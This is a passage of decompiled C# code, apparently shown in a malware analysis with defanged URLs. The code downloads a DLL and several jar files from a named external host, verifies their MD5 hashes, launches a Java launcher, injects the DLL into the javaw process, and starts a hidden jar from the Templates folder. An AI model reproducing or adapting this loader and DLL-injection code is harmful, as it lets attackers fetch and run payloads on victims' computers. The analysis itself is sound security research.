 ```
                webClient.DownloadFile("hxxp://pussyhunters.ru/mix/Bypass.lib", text2 + "\Bypass.lib");
            `}`
            if (!CalculateMD5(text2 + "\x32.dll").Equals(array[1]))
            `{`
                if (File.Exists(text2 + "\x32.dll"))
                `{`
                    File.Delete(text2 + "\x32.dll");
                `}`
                webClient.DownloadFile("hxxp://pussyhunters.ru/mix/x32.dll", text2 + "\x32.dll");
            `}`
            if (!CalculateMD5(text2 + "\Launcher.jar").Equals(array[3]))
            `{`
                if (File.Exists(text2 + "\Launcher.jar"))
                `{`
                    File.Delete(text2 + "\Launcher.jar");
                `}`
                webClient.DownloadFile("hxxp://pussyhunters.ru/mix/Launcher.jar", text2 + "\Launcher.jar");
            `}`
            if (!CalculateMD5(Environment.GetFolderPath(Environment.SpecialFolder.Templates) + "\YhfNbQOpZ.jar").Equals(array[4]))
            `{`
                if (File.Exists(text2 + "\YhfNbQOpZ.jar"))
                `{`
                    File.Delete(text2 + "\YhfNbQOpZ.jar");
                `}`
                webClient.DownloadFile("hxxp://pussyhunters.ru/mix/YhfNbQOpZ.jar", Environment.GetFolderPath(Environment.SpecialFolder.Templates) + "\YhfNbQOpZ.jar");
            `}`
            if (CalculateMD5(text2 + "\Bypass.lib").Equals(array[0]) &amp;amp;&amp;amp; CalculateMD5(text2 + "\x32.dll").Equals(array[2]) &amp;amp;&amp;amp; CalculateMD5(text2 + "\Launcher.jar").Equals(array[3]) &amp;amp;&amp;amp; CalculateMD5(Environment.GetFolderPath(Environment.SpecialFolder.Templates) + "\YhfNbQOpZ.jar").Equals(array[4]))
            `{`
                Process.Start(new ProcessStartInfo("javaw", "-jar " + text2 + "\Launcher.jar"));
                Thread.Sleep(1000);
                if (Process.GetProcessesByName("javaw").Length == 1)
                `{`
                    int processId = GetProcessId("javaw");
                    if (processId &amp;gt;= 0)
                    `{`
                        IntPtr hProcess = OpenProcess(2035711u, 1, processId);
                        InjectDLL(hProcess, text2 + "\x32.dll");
                        Process.Start(new ProcessStartInfo("javaw", "-jar " + Environment.GetFolderPath(Environment.SpecialFolder.Templates) + "\YhfNbQOpZ.jar"));
                        Application.Exit();
                    `}`
                `}`
                else
                `{`
                    MessageBox.Show("Что-то пошло не так, перезапустите программу!", "Ошибка запуска!", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                    Application.Exit();
                `}`
            `}`
        `}`
    `}`
    catch (Exception ex)
    `{`
        MessageBox.Show("Что-то пошло не так...rn[" + ex.ToString() + "]", "Ошибка запуска!", MessageBoxButtons.OK, MessageBoxIcon.Hand);
    `}`
```